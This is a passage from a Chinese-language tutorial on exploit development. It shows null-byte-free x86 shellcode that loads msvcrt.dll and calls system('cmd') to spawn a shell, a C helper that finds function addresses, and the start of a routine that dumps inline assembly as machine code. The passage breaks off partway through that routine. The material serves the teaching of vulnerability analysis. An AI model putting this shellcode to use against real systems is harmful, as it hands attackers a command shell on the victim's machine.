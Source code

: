 ```
xor ebx,ebx ;//ebx=0

push 0x3f3f6c6c ;//ll??
push 0x642e7472 ;//rt.d
push 0x6376736d ;//msvc
mov [esp+10],ebx ;//'?'->'0'
mov [esp+11],ebx ;//'?'->'0'
mov eax,esp ;//"msvcrt.dll"地址
push eax ;//"msvcrt.dll"
mov eax,0x77b62864 ;//kernel32.dll:LoadLibraryA
call eax ;//LoadLibraryA("msvcrt.dll")
add esp,16

push 0x3f646d63 ;//"cmd?"
mov [esp+3],ebx ;//'?'->'\0'
mov eax,esp;//"cmd"地址
push eax ;//"cmd"
mov eax,0x774ab16f ;//msvcrt.dll:system
call eax ;//system("cmd")
add esp,8
```
上述汇编代码实质上是如下两个函数调用语句：

```c
Loadlibrary(“msvcrt.dll”);
system(“cmd”);
```
不过在构造这段汇编代码时需要注意不能出现字节0，为了填充字符串的结束字符，我们使用已经初始化为0的ebx寄存器代替。另外，在对库函数调用的时候需要提前计算出函数的地址，如Loadlibrary函数的0x77b62864。计算方式如下：  

```c
int findFunc(char*dll_name,char*func_name)
{
    HINSTANCE handle=LoadLibraryA(dll_name);//获取dll加载地址
    return (int)GetProcAddress(handle,func_name);
}
```
这个函数地址是在本地计算的，如果被攻击计算机的操作系统版本差别较大的话，这个地址可能是错误的。不过在《0day安全：软件漏洞分析技术》中，作者提供了一个更好的方式，感兴趣的读者可以参考该书提供的代码。因此构造一个通用的shellcode并非十分容易，如果想让攻击变得有效的话。  


六、汇编语言自动转换
===

写出shellcode后（无论是简单的还是通用的），我们还需要将这段汇编代码转换为机器代码。如果读者对x86汇编十分熟悉的话，选择手工敲出二进制代码的话也未尝不可。不过我们都希望能让计算机帮助做完这些事，既然开发环境提供了编译器，用它们帮忙何乐而不为呢？既不用OllyDbg工具，也不适用其他的第三方工具，我们写一个简单的函数来完成这个工作。  

```c
//将内嵌汇编的二进制指令dump到文件,style指定输出数组格式还是二进制形式，返回代码长度
int dumpCode(unsigned char*buffer)
{
    goto END ;//略过汇编代码
BEGIN:
    __asm
    {
        //在这里定义任意的合法汇编代码
        
    }
END:
    //确定代码范围
    UINT begin,end;
    __asm
    {
        mov eax,BEGIN ;
        mov begin,eax ;
        mov eax,END ;
        mov end,eax ;
```